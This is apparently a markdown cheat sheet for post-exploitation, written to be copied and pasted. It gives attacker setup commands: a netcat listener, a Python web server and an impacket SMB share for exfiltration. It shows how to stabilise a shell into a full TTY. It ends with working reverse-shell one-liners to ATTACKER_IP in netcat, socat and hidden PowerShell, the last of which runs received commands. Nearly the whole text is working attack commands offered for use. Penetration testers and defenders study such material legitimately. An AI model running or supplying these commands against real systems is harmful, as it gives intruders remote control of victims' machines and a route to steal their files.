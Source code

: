 ## Typical command walkthrough (detailed, copy‑paste friendly)

Replace ATTACKER_IP and ports/targets as needed.

### 0) Attacker prep

```bash
# Listener (reverse shell)
rlwrap -cAr nc -lvnp 4444

# Simple web server for file transfer
python3 -m http.server 8000

# SMB share for easy exfil (run where you want files to land)
impacket-smbserver share $(pwd) -smb2support
```

### 1) Stabilize foothold

Linux TTY upgrade:

```bash
# In a basic shell on victim:
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z to background the shell, then on your attacker box:
stty raw -echo; fg
reset
stty rows 55 columns 200
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Netcat fallback reverse shell (if you need to trigger from a web shell):

```bash
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/f
```

socat fully interactive TTY:

```bash
# Attacker:
socat -d -d TCP-LISTEN:4444,reuseaddr,fork FILE:`tty`,raw,echo=0
# Victim (Linux):
socat TCP:ATTACKER_IP:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

Windows one‑liner reverse shell (PowerShell):

```powershell
powershell -nop -w hidden -c "$c=New-Object Net.Sockets.TCPClient('ATTACKER_IP',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1 | Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$s.Write(([Text.Encoding]::ASCII).GetBytes($sb2),0,$sb2.Length);$s.Flush()};$c.Close()"
```
